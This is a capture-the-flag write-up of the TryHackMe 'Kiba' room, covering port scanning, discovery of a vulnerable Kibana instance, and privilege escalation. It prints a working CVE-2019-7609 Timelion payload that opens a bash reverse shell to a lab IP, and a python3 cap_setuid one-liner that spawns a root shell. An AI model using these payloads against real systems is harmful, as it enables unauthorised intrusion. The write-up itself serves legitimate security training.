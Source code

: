 ```yaml
---
title: "TryHackMe - Kiba"
author: Nasrallah
description: ""
date: 2022-10-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, capability, getcap, rce, cve, python]
img_path: /assets/img/tryhackme/kiba
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Kiba](https://tryhackme.com/room/kiba) from [TryHackMe](https://tryhackme.com). The target is running a web application vulnerable to command execution which we use to get a reverse shell. Then we found a capability that we exploit to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.130.144
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and 80 running an Apache web server.

## Web

Let's check the web site.

![](1.png)

We found some ASCII art with the message `Welcome, "linux capabilities" is very interesting.`.

### Gobuster

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.130.144/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/10/07 05:38:14 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1291]
/server-status        (Status: 403) [Size: 278] 
===============================================================
```

Couldn't find anything useful.

Let's scan all ports this time.

```terminal
Nmap scan report for 10.10.134.123                                                                                                                           
Host is up (0.14s latency).                                                                                                                                  
Not shown: 9996 closed ports                                                                                                                                 
PORT     STATE SERVICE      VERSION                                                                                                                          
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                     
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)            
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)           
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)         
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))                
|_http-server-header: Apache/2.4.18 (Ubuntu)                              
|_http-title: Site doesn't have a title (text/html).  
5044/tcp open  lxi-evntsvc?                                                   
5601/tcp open  esmagent?                                                      
| fingerprint-strings:                                                                                                                                       
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessi
onReq, TLSSessionReq, TerminalServerCookie, X11Probe:                     
|     HTTP/1.1 400 Bad Request                                                
|   FourOhFourRequest:                                                        
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:48 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:43 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Mon, 25 Oct 2021 15:08:43 GMT

```

We found 2 other ports, let's check port 5601 since it seems to run a web application.

![](2.png)

This port is running Kibana which is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack.

Navigating through the different tabs, we find the version number in the management tab.

![](3.png)

Searching on google, we find that this version is vulnerable to command execution. 


# **Foothold**

On this [github repository](https://github.com/mpgn/CVE-2019-7609), we find an explanation on how to get a reverse shell using the following payload.

```bash
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.10.10.10/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

 1. Go to Timelion tab.
 2. Past the payload into the Timelion visualizer.
 3. Click run
 4. Setup a listener.
 5. On the left panel click on Canvas

![](4.png)

![](5.png)


# **Privilege Escalation**

Now let's check the capabilities since we got a hint on the first web page about that. `getcap -r / 2>/dev/null`

```terminal
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

We found a python3 binary with setuid capability, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).

![](6.png)

We need to run the following command for a root shell.

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](7.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://gtfobins.github.io/gtfobins/python/#capabilities

https://github.com/mpgn/CVE-2019-7609